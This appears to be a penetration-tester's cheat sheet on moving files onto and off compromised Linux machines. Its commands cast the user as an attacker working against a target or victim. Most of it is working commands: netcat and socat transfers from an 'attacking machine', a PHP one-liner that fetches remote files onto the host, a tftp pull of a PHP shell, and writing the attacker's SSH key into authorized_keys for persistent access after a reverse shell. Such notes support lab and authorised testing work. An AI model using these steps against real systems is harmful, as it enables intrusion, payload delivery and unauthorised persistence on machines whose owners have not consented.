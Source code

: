 # Transfering Files on Linux

## Set Up a Simple Python Webserver

For the examples using `curl` and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```text
python -m SimpleHTTPServer 9999
```

## Wget

You can download files using `wget` like this:

```text
wget 192.168.1.102:9999/file.txt
```

## Curl

```text
curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```text
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```text
nc -l 1234 > file.sh
```

## Ncat

Ncat is an alternative to Netcat implementing SSL.

[https://medium.com/@pentest\_it/ncat-cheatsheet-ddc5f07d8533](https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533)

## sdb

sdb is an other alternative to Netcat implementing SSL.

[https://tools.kali.org/maintaining-access/sbd](https://tools.kali.org/maintaining-access/sbd)

## Socat

Server receiving file:

```text
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
```

Server sending file:

```text
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat
```

## With php

```text
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```text
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can do this trick:

```text
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`.  
Then you need to do two things.

1. Create a new keypair

You do that with:

```text
ssh-keygen -t rsa -C "your_email@example.com"
```

then you enter a name for the key.

Enter file in which to save the key \(/root/.ssh/id\_rsa\): nameOfMyKey  
Enter passphrase \(empty for no passphrase\):  
Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

1. Add your public key to authorized\_keys.

Now you copy the content of `nameOfMyKey_pub`.  
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized\_keys. Like this

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

1. Log in.

Now you should be all set to log in using your private key. Like this

```text
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP

Now we can copy files to a machine using `scp`

```text
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

